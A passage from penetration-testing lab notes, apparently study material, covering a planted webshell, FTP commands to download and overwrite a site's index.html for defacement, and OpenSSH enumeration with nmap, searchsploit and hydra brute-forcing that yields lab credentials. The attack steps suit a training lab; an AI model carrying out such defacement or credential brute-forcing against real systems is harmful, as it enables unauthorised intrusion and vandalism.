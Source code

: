 - Open the browser and navigate to
  - `10.2.29.246/shell.aspx`
- In this case the reverse shell don't work.
- The next step of an attacker can be to **deface the website** - modifying the web application

```bash
ftp 10.2.29.246
get index.html
# modify the index.html than upload the edited web page
put index.html
```

### [OpenSSH](../3-metasploit/ssh-msf-exp.md)

> Obtain the new target IP if the lab was restarted.
>
> Target IP: `10.2.16.83`
>
> Based on the FTP Enumeration:
>
> - `administrator`:`vagrant`
> - `vagrant`:`vagrant`

```bash
nmap -sV -sC -p 22 10.2.16.83
```

```bash
22/tcp open  ssh     OpenSSH 7.1 (protocol 2.0)
| ssh-hostkey: 
|   2048 83:56:2e:69:b5:2d:b4:9a:e4:7f:97:86:d8:bc:ae:7b (RSA)
|_  521 c0:e2:da:9d:e2:1e:58:09:7e:80:07:ec:3e:b4:57:f5 (ECDSA)
```

```bash
searchsploit OpenSSH 7.1
# Use username enumeration if needed
```

- **Brute-force SSH**

```bash
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.2.16.83 ssh

hydra -l administrator /usr/share/wordlists/metasploit/unix_users.txt 10.2.16.83 ssh
# No valid password for SSH - administrator
```

```bash
[22][ssh] host: 10.2.16.83   login: vagrant   password: vagrant
```

![](4-exploitationassets/image-20230424114404462.png)
